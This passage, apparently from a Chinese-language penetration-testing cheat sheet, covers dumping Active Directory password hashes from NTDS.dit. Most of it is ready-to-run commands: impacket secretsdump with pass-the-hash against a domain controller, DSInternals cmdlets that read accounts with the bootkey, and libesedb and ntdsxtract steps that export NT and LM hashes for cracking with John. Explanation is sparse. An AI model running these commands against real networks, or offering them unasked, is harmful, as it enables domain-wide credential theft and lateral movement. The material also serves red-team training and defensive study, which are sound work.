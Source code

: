 此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```bash
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```powershell
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/) - Library and tools to access the Extensible Storage Engine (ESE) Database File (EDB) format.
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```bash
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install -y autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```

利用该工具从 ntds.dit 文件中转储表格
```bash
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```bash
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```
